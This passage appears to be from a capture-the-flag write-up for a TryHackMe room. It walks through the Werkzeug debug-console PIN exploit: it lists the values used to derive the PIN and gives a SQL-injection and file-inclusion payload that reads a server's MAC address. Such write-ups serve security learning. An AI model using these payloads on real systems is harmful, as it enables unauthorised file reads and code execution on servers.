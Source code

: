   <img height=400 img src=./readme_assets/error-page.PNG/>
</p>

Researching Werkzeug/3.0.0 Python/3.8.10 we found a [Console PIN Exploit](https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting/) that looked promising. 

To use the exploit you need the following information:
```
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

The public bits can be found on the error page we found earlier:
mcskidy = username
flask.app = modname
Flask = getattr(app, '__name__', getattr(app.__class__, '__name__'))
/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py = getattr(mod, '__file__', None)

To find the private bits we will need to use Local File inclusion (LFI):
For Mac address use `http://rh:8000/download?id=' union select "file:///sys/class/net/eth0/address" where 1=1 and '1'='1`
The mac address must be converted to decimal before using.
The mac address will change each time you restart the THM room machine.

<p align="left">
  <img height=300 img src=./readme_assets/mac-address.PNG/>
</p>
